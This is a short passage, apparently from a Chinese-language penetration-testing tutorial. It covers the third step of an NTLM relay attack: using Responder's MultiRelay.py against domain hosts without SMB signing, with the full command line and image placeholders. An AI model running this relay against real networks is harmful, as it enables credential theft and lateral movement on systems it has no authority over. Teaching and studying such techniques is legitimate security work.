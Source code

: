 ![](vx_images/460240116722.png)

3. 开启 NTLM hash 转发:
   在 Responder 的 tools 目录下, 使用 MultiRelay.py 对未开启 SMB 签名的域内主机进行 NTLM 转发

```
python MultiReplay.py -t <被攻击目标IP> -u ALL
```

![](vx_images/5932144151700.png)
